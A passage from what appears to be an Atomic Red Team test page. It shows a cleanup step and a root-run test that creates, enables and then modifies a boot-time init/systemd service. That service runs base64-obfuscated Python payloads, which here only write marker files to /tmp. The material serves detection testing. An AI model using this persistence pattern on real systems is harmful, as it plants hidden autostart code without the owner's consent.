 #### Cleanup Commands:
```sh
sysrc -x art_test_enable
rm -f #{rc_service_path}/#{rc_service_file}
```





<br/>
<br/>

## Atomic Test #3 - Create Systemd Service file,  Enable the service , Modify and Reload the service.
This test creates a systemd service unit file and enables it to autostart on boot. Once service is created and enabled, it also modifies this same service file showcasing both Creation and Modification of system process.

**Supported Platforms:** Linux


**auto_generated_guid:** c35ac4a8-19de-43af-b9f8-755da7e89c89






#### Attack Commands: Run with `bash`!  Elevation Required (e.g. root or admin) 


```bash
cat > /etc/init.d/T1543.002 << EOF
#!/bin/bash
### BEGIN INIT INFO
# Provides : Atomic Test T1543.002
# Required-Start: $all
# Required-Stop : 
# Default-Start: 2 3 4 5
# Default-Stop: 
# Short Description: Atomic Test for Systemd Service Creation
### END INIT INFO
python3 -c "import os, base64;exec(base64.b64decode('aW1wb3J0IG9zCm9zLnBvcGVuKCdlY2hvIGF0b21pYyB0ZXN0IGZvciBDcmVhdGluZyBTeXN0ZW1kIFNlcnZpY2UgVDE1NDMuMDAyID4gL3RtcC9UMTU0My4wMDIuc3lzdGVtZC5zZXJ2aWNlLmNyZWF0aW9uJykK'))"
EOF

chmod +x /etc/init.d/T1543.002
if [ $(cat /etc/os-release | grep -i ID=ubuntu) ] || [ $(cat /etc/os-release | grep -i ID=kali) ]; then update-rc.d T1543.002 defaults; elif [ $(cat /etc/os-release | grep -i 'ID="centos"') ]; then chkconfig T1543.002 on ; else echo "Please run this test on Ubnutu , kali OR centos" ; fi ;
systemctl enable T1543.002
systemctl start T1543.002

echo "python3 -c \"import os, base64;exec(base64.b64decode('aW1wb3J0IG9zCm9zLnBvcGVuKCdlY2hvIGF0b21pYyB0ZXN0IGZvciBtb2RpZnlpbmcgYSBTeXN0ZW1kIFNlcnZpY2UgVDE1NDMuMDAyID4gL3RtcC9UMTU0My4wMDIuc3lzdGVtZC5zZXJ2aWNlLm1vZGlmaWNhdGlvbicpCg=='))\"" | sudo tee -a /etc/init.d/T1543.002
systemctl daemon-reload
systemctl restart T1543.002
```
